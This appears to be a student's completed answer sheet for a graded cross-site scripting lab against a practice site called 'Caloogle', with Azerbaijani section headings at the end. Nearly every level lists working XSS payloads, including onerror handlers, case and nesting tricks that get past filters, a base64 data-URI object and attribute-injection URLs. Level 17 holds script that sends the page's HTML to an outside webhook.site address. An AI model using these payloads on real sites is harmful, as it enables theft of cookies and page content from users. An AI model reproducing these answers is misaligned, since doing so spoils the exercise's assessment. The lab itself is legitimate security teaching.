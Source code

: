 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

'''
TODO: <script> alert() </script> or (<script>success()</script>)
'''
  
# 2. No Script Allowed (3 points)

'''
TODO: <img src onerror="alert('Hacked by Rashad:)')"> or </script><script>success()</script>
'''

# 3. One More Time, Like You Mean It (3 points)

'''
TODO: <img src onerror="alert('You are Rashad:D')"> or <scrscriptipt>alert(1)</scrscriptipt>
'''
# 4. An Open-and-Shut Case (3 points)

'''
TODO: <ScRiPt>success()</sCriPt>
'''
# 5. Time to Mix Things Up (3 points)

'''
TODO: <img src onerror="alert('My name is Rashad')"> or <ScRiPt>success()</sCriPt>
'''
# 6. A Picture is Worth a Thousand Words (3 points)

'''
TODO: <img src onerror="alert('Rashad')"> or <image src =q onerror=success()>
'''
# 7. Between a Rock And a Hard Place (3 points)

'''
TODO: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> or <iframe src=# onmouseover="success(document.cookie)"></iframe> or <button onClick="success()">Göndər</button>
'''
# 8. Angle of Death (6 points)

Attack input:

'''
TODO: <<script>>success()</script> or <!--<img src="--><img src=x onerror=javascript:success()//">
'''

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

'''
TODO: <iframe"<svg onload=alert()>"> or "<img src=/ onerror="success()" />
'''

# 11. You Can't Win 'em All (6 points)

Attack input:

'''
TODO: "" false = "success ()"
'''

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 12. When All is Said and Done (6 points)

Attack input:

'''
TODO: '><script>alert();</script> or ' onload=success()
'''
Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

'''
TODO: http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=alert(1) ----" onload=alert(1) --- http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()
'''
# 15. The Early Bird Catches the Worm (3 points)

'''
TODO: </script> <img src=/ onerror=success() /> <script>
  '''
# 16. Tying Up Loose Ends (3 points)

'''
TODO: <<//ScrIpt><script>alert(1)<<//script> or <<<///scrip<<//script>>t>>><img src =q onerror=success()>
'''
# 17. Take a Page Out of Their Book (6 points)

Attack code:
'''
js
// TODO: function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
'''
# 18. Congrats

N/A

# Əlavə qeydlər


Əlavə qeydlərinizi yazın
